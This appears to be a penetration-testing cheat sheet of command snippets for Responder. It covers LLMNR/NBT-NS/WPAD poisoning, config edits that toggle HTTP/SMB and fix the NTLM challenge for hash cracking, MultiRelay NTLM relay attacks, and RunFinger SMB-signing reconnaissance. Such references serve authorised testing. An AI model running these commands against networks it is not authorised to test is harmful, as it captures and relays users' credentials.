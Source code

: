 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## responder launch
#platform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I eth0
```

## responder launch - analyze mode (no poisoning)
#platform/linux #target/remote #cat/RECON 
```
responder –I eth0 -A
```

## responder launch with wpad file 
#platform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I eth0 --wpad
```

## responder http on
#platform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder http off
#platform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder smb on
#platform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder smb off
#platform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder challenge set
#platform/linux #target/local #cat/UTILS
Set the NTLM challenge for cracking

= challenge: 1122334455667788
```
sed -i 's/Challenge =.*$/Challenge = <challenge>/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'Challenge ='
```

## responder challenge reset
#platform/linux #target/local #cat/UTILS
```
sed -i 's/Challenge =.*$/Challenge = 1122334455667788/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'Challenge ='
```

## multirelay attack - user filtered (previous disable HTTP and SMB in Responder.conf)
#platform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB in Responder.conf)
#platform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```

## runfinger - Responder-related utility which will finger a single IP address or an IP subnet and will reveal if a target requires SMB Signing or not.
#platform/linux #target/remote #cat/RECON 
```
runfinger -i <network_range>
```
